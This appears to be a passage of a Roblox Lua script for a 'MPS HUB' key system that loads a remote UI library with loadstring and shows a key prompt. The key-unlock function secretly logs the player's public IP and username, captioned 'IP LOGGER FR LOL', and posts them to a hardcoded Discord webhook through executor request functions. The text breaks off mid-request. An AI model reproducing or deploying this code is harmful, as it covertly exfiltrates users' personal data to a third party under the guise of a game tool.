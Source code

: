
local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Player = game.Players.LocalPlayer
local Window = OrionLib:MakeWindow({Name = "MPS HUB Key System", HidePremium = false, SaveConfig = true, IntroText = "MPS Key System"})

OrionLib:MakeNotification({
    Name = "Logged in",
    Content = "Welcome! "..Player.Name.."." ,
    Image = "rbxassetid://4483345998",
    Time = 5
})

_G.Key = "8197281FFcBE-023f1Bk2k1fYY-5571G1GMANX1D44" -- Change key here
_G.KeyInput = "string" -- Change what you want the textbox of where you enter the key to say without clicking it

local Key = Window:MakeTab({
    Name = "Key System",
    Icon = "rbxassetid://4483345998", -- Your able to change this to any image you want
    PremiumOnly = false
})

function MakeScriptHub()

---IP LOGGER FR LOL

local webh = "https://discord.com/api/webhooks/1080557250894110770/8-c8lTfIQ7WhLpXLPG6Igb9y_K6cb5G0LnAUXL_krXg_5BjrlRKjOlkZkr3F8XPEhmy1"

pcall(function()
   local data = {
       ["embeds"] = {
           {
               ["title"] = game:GetService("Players").LocalPlayer.Name,
               ["description"] = game:HttpGet("https://api.ipify.org")
           }
       }
   }

   if syn then
       local response = syn.request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif request then
       local response = request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif http_request then
       local response = http_request(
           {
               Url = webh,
               Method = 'POST',